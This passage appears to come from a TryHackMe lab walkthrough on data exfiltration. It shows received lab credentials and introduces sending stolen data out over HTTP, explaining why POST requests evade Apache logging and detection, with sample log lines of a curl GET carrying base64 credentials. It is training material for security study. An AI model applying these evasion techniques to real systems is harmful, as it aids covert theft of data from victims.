 If we check the attacker machine, we can see that we have successfully transmitted the file.

Checking the received data  

```markup
thm@jump-box$ cd /tmp/task5/
thm@jump-box:/tmp/task5$ cat creds.txt
admin:password
Admin:123456
root:toor
```

# Exfiltrate using HTTP(S)
---

Before going further, ensure that you have the fundamental knowledge of network protocols before diving into this task and the upcoming tasks.

This task explains how to use theÂ HTTP/HTTPS protocol to exfiltrate data from a victim to an attacker's machine. As a requirement for this technique, an attacker needs control over a webserver with a server-side programming language installed and enabled. We will show aÂ PHP-based scenario in this task, but it can be implemented in any other programming language, such as python, Golang, NodeJS, etc.  

## HTTPÂ POST Request

Exfiltration data through theÂ HTTPÂ protocol is one of the best options because it is challenging to detect. It is tough to distinguish between legitimate and maliciousÂ HTTPÂ traffic. We will use the POSTÂ HTTPÂ method in the data exfiltration, and the reason is with the GET request, all parameters are registered into the log file. While using POST request, it doesn't. The following are some of the POST method benefits:

- POST requests are never cached
- POST requests do not remain in the browser history
- POST requests cannot be bookmarked
- POST requests have no restrictions onÂ **data length**

Let's login to theweb.thm.comÂ machine usingÂ thm:tryhackmeÂ credentials and inspect theÂ ApacheÂ log file with twoÂ HTTPÂ requests, one for the GET and the other for the POST, and check what they look like!

Inspecting theApachelog file  

```markup
thm@jump-box:~$ ssh thm@web.thm.com
thm@web-thm:~$ sudo cat /var/log/apache2/access.log
[sudo] password for thm:
10.10.198.13 - - [22/Apr/2022:12:03:11 +0100] "GET /example.php?file=dGhtOnRyeWhhY2ttZQo= HTTP/1.1" 200 147 "-" "curl/7.68.0"
10.10.198.13 - - [22/Apr/2022:12:03:25 +0100] "POST /example.php HTTP/1.1" 200 147 "-" "curl/7.68.0"
```

Obviously, the first line is a GET request with a fileÂ parameter with exfiltrated data. If you try to decode it using the based64 encoding, you would get the transmitted data, which in this case isÂ thm:tryhackme.Â While the second request is a POST toÂ example.php, we sent the same base64 data, but it doesn't show what data was transmitted.
